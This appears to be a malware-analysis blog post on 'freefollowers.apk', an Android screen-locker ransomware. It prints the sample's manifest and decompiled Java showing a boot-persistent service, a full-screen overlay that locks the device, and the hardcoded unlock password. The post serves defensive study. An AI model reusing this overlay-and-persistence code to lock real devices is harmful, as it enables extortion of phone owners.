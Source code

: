 ```yaml
---
layout: post
title: Android Malware Analysis Series - freefollwers.apk
---
```


**File Information:** [https://twitter.com/malwrhunterteam/status/1534958788096233472?s=20&t=OAEC5DdvJDvRp6SRsaaUaw](https://twitter.com/malwrhunterteam/status/1534958788096233472?s=20&t=OAEC5DdvJDvRp6SRsaaUaw)

**Sample Source:** [https://bazaar.abuse.ch/sample/5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e/#intel](https://bazaar.abuse.ch/sample/5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e/#intel)

**SHA256 Hash:** 
5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e

## Introduction

The freefollowers.apk appears to targeting people who use social media and are looking to up the amount of followers for their social media accounts. Specifically targeting users of android. I am not entirely sure the delivery method this malware uses, but I found this sample APK via a Google search using the SHA256 hash. It appears that this piece of android malware was posted by Malware Hunters twitter on June 9th of 2022. Though I have found a variant on Virus Total [here](https://www.virustotal.com/gui/file/73fae61d9550186c9b68c0e3a0589f1faaa87f6a9dc8290f98aaf55db3a58350/detection). In the URL it identifies the malware as Android Locker. 

![Untitled](assets/androidMalwarept101.png)

This malware “*screenlocks*” the device by creating an overlay to instruct the user to send money to the address provided in the screenshot. Once the user does so the user can unlock the device with a password provided by the malware authors. 

# Decompilation and Analysis

Usually I would start a security audit of an Android APK with first doing a bit of automated analysis along with some manual code review of the underlying APK structure. Gaining first an idea of what permissions, activities, and classes are being called in the manifest file. Then moving on from there.

I deployed an Android emulated device specific to this test in Android Studio. The manifest file explicitly calls out Android API 23 Marshmallow. I install the malware via adb then did a reboot of the emulated device to get the screenshot below.

![Untitled](assets/androidMalwarept102.png)

As you can tell the actors of this malware go by an anonymous group XPhantom. 

![Untitled](assets/androidMalwarept103.png)

## Manifest.xml file

Digging into the freefollowers.apk I observed one activity, one service, and one receiver  in the Manifest.xml file. We can also see multiple permissions such as external_storage, read_contacts, read_sms and receive_boot_completed.

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" android:installLocation="internalOnly" android:compileSdkVersion="23" android:compileSdkVersionCodename="6.0-2438415" package="com.XPhantom.id" platformBuildVersionCode="23" platformBuildVersionName="6.0-2438415">
    <uses-sdk android:minSdkVersion="8" android:targetSdkVersion="21"/>
    <uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.SET_WALLPAPER"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.READ_SMS"/>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGE"/>
    <uses-permission android:name="android.permission.CAMERA"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@drawable/ic_launcher" android:debuggable="true">
        <activity android:label="@string/app_name" android:name="com.XPhantom.p000id.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.INFO"/>
            </intent-filter>
        </activity>
        <service android:name="com.XPhantom.p000id.MyService" android:enabled="true"/>
        <receiver android:name="com.XPhantom.p000id.BootReceiver" android:permission="android.permission.RECEIVE_BOOT_COMPLETED" android:enabled="true">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
                <action android:name="android.intent.action.QUICKBOOT_POWERON"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

## MainActivity

In the MainActivity java code below we can see that the malware starts the service ***********MyService.*********** 

```java
package com.XPhantom.p000id;

import adrt.ADRTLogCatReader;
import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;

/* renamed from: com.XPhantom.id.MainActivity */
/* loaded from: classes.dex */
public class MainActivity extends Activity {
    @Override // android.app.Activity
    public void onCreate(Bundle bundle) {
        ADRTLogCatReader.onContext(this, "com.aide.ui");
        super.onCreate(bundle);
        try {
            startService(new Intent(this, Class.forName("com.XPhantom.id.MyService")));
            finish();
        } catch (ClassNotFoundException e) {
            throw new NoClassDefFoundError(e.getMessage());
        }
    }
}
```

## MyService Activity

After overviewing the classes baked into this piece of malware *MyService* appears to be the main functionality being called from *MainActivity*. 

On line 23 of the MyService class there is a reference to `LayoutInflater` this is used in this malware sample to overlay a View onto the device. Disabling the user from using their phone and even with a restart will continue the LayoutInflater view.

```java
public class MyService extends Service {
    ImageView chatHead;
    Context context;

    /* renamed from: e1 */
    EditText f0e1;
    ViewGroup myView;
    WindowManager windowManager;

    @Override // android.app.Service
    public void onCreate() {
        ADRTLogCatReader.onContext(this, "com.aide.ui");
        this.windowManager = (WindowManager) getSystemService("window");
        this.myView = (ViewGroup) ((LayoutInflater) getSystemService("layout_inflater")).inflate(C0000R.layout.main, (ViewGroup) null);
        this.chatHead = new ImageView(this);
        this.chatHead.setImageResource(C0000R.drawable.ic_launcher);
        this.f0e1 = (EditText) this.myView.findViewById(C0000R.C0001id.mainEditText1);
        ((Button) this.myView.findViewById(C0000R.C0001id.mainButton1)).setOnClickListener(new View.OnClickListener(this) { // from class: com.XPhantom.id.MyService.100000000
            private final MyService this$0;
```

[https://developer.android.com/reference/android/view/LayoutInflater](https://developer.android.com/reference/android/view/LayoutInflater)

Secondly, the link above to the developer reference makes note of an XML file. Which appears to loading the View defined by either the developer or in our case the malware author. If we take a look at the strings.xml file we can observe the same resources being applied to the LayoutInflater View via the C000R class.

![Untitled](assets/androidMalwarept104.png)

![Untitled](assets/androidMalwarept105.png)

Thirdly, we can see in the following java code snippet that the malware has a hardcoded string. The hardcoded string allows for the LayoutInflater that overlays on the device to be “removed”. Once this string has been submitted into the getText field which appears to be the password the malware stops the overlay and the user can begin using the device again. 

```java
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                if (this.this$0.f0e1.getText().toString().equals("Abdullah@")) {
                    this.this$0.windowManager.removeView(this.this$0.myView);
                    try {
                        this.this$0.context.startService(new Intent(this.this$0.context, Class.forName("com.XPhantom.id.MyService")));
                        return;
                    } catch (ClassNotFoundException e) {
                        throw new NoClassDefFoundError(e.getMessage());
                    }
                }
```

Thanks for reading, and look out for future posts analyzing malware samples in 2023.
